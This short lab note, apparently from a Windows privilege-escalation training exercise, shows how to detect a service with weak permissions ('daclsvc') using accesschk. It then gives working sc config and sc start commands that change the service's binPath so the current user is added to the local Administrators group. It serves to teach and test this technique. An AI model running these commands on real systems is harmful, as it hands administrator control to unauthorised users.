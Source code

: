## Service Escalation - binPath

Detection

Windows VM

1. Open command prompt and type: C:\Users\User\Desktop\Tools\Accesschk\accesschk64.exe -wuvc daclsvc

2. Notice that the output suggests that the user “User-PC\User” has the “SERVICE_CHANGE_CONFIG” permission.

Exploitation

Windows VM

1. In command prompt type: sc config daclsvc binpath= "net localgroup administrators user /add"
2. In command prompt type: sc start daclsvc
3. It is possible to confirm that the user was added to the local administrators group by typing the following in the command prompt: net localgroup administrators
